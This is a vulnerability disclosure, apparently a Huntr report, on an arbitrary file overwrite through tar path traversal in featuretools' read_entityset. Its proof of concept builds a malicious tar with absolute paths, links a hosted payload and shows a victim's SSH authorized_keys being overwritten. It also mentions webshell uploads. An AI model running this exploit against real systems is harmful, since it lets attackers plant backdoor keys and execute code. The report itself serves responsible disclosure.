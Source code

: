 ```yaml
---
layout: post
title:  "Huntr: Arbitrary File Overwrite in read_entityset api"
date:  2024-04-07 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> Huntr: Arbitrary File Overwrite in read_entityset api in featuretools

## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)

## Description

The [featuretools.read_entityset](https://featuretools.alteryx.com/en/stable/generated/featuretools.read_entityset.html#featuretools.read_entityset) function does not adequately prevent malicious tar files from performing path traversal attacks. This can allow the downloading of malicious tar files that can overwrite any file. This leads directly to a high impact regarding the integrity of files. An attacker could also abuse this to impact the availability, by deleting system files, personal files, or application files. Remote code execution is also possible through various means.

The vulnerable function is exposed through the `featuretools.read_entityset` function, which can be imported easily. It's an api used to read data_description.json from directory on disk, S3 path, or URL which is tar file.

This code snippet shows how the `read_entityset` function extracts a tar file downloaded from internet without performing any security checks. 

```
def read_entityset(path, profile_name=None, **kwargs):
    """Read entityset from disk, S3 path, or URL.

    Args:
        path (str): Directory on disk, S3 path, or URL to read `data_description.json`.
        profile_name (str, bool): The AWS profile specified to write to S3. Will default to None and search for AWS credentials.
            Set to False to use an anonymous profile.
        kwargs (keywords): Additional keyword arguments to pass as keyword arguments to the underlying deserialization method.
    """
    if _is_url(path) or _is_s3(path) or _is_local_tar(str(path)):
        with tempfile.TemporaryDirectory() as tmpdir:
            local_path = path
            transport_params = None

            if _is_s3(path):
                transport_params = get_transport_params(profile_name)

            if _is_s3(path) or _is_url(path):
                local_path = os.path.join(tmpdir, "temporary_es")
                use_smartopen_es(local_path, path, transport_params) # download file from url!
            ### tar file extracted to tepdir without any security checks ###
            with tarfile.open(str(local_path)) as tar:
                tar.extractall(path=tmpdir)

            data_description = read_data_description(tmpdir)
            return description_to_entityset(data_description, **kwargs)
    else:
        data_description = read_data_description(path)
        return description_to_entityset(data_description, **kwargs)
```

The Python documentation explains us that tarfiles may have absolute filenames starting with / which could overwite files in system.

```
Warning: Never extract archives from untrusted sources without prior inspection. 
It is possible that files are created outside of path, 
e.g. members that have absolute filenames starting with "/" or filenames with two dots "..".
```

## Proof of Concept

An attacker can create a malicous tar file using following command:

```
tar --absolute-names -cvf hack.tar /home/kali/.ssh/authorized_keys
```

Then, the attacker will upload the `hack.tar` to public server. 

I have uploaded one malicous tar file for testing: [https://raw.githubusercontent.com/sunriseXu/onnx/main/validated/hack.tar](https://raw.githubusercontent.com/sunriseXu/onnx/main/validated/hack.tar)

If anyone now downloads tar using `read_entityset` api, causing automatically extracting the malicous tar file and overwrite files silently.

```
import featuretools as ft
ft.read_entityset(path="https://raw.githubusercontent.com/sunriseXu/onnx/main/validated/hack.tar")
```

```
$ cat /home/kali/.ssh/authorized_keys
ssh-rsa xxx hacker@test.com
```

Tested on Google Colab: [https://colab.research.google.com/drive/1qc7qg_VPPHKVOUT-xhSygg2M7mwDdVTt?usp=sharing](https://colab.research.google.com/drive/1qc7qg_VPPHKVOUT-xhSygg2M7mwDdVTt?usp=sharing)

![poc](https://live.staticflickr.com/65535/53637853744_26b8a5fff7_h.jpg)


## Impact

This vulnerability can have severe consequences. This section will highlight some tangible impact.

### SSH Access

On servers that have SSH enabled, an attacker may be able to inject their own public RSA key into the authorized_keys file, leading to remote code execution.

### Web Servers

On servers hosting web servers, various vulnerabilities can be exploited. On PHP or JSP server, remote code execution may be possible via uploading a webshell. On other servers an HTML file can be uploaded to achieve Cross-site Scripting (XSS)


## Reference

[https://huntr.com/bounties/5d7e5752-085c-4e93-af0d-e25f05a27b89](https://huntr.com/bounties/5d7e5752-085c-4e93-af0d-e25f05a27b89)

## Occurrences

[https://github.com/alteryx/featuretools/blob/21d0bf0915238ba6c6bc1e958b9a91b209f88de5/featuretools/entityset/deserialize.py#L170](https://github.com/alteryx/featuretools/blob/21d0bf0915238ba6c6bc1e958b9a91b209f88de5/featuretools/entityset/deserialize.py#L170)
